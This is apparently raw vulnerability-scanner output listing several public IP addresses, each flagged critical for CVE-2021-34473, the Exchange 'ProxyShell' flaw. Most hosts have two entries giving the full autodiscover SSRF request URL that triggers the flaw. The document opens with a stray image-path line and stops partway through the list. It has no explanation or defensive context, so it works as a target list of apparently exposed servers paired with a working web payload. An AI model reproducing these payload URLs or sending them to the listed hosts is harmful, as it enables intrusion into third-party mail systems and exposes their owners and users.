 [CVE-2021-34473] [http] [critical] https://212.30.184.123/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.34.57.30  
  
---  
[CVE-2021-34473] [http] [critical] https://212.34.57.30/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.34.57.30/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.108.129.140  
  
---  
[CVE-2021-34473] [http] [critical] https://213.108.129.140/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://213.108.129.140/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.108.129.136  
  
---  
[CVE-2021-34473] [http] [critical] https://213.108.129.136/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://213.108.129.136/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.108.129.138  
  
---  
[CVE-2021-34473] [http] [critical] https://213.108.129.138/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://213.108.129.138/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.75.220.18  
  
---  
[CVE-2021-34473] [http] [critical] https://212.75.220.18/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://212.75.220.18/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.170.106.194  
  
---  
[CVE-2021-34473] [http] [critical] https://213.170.106.194/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  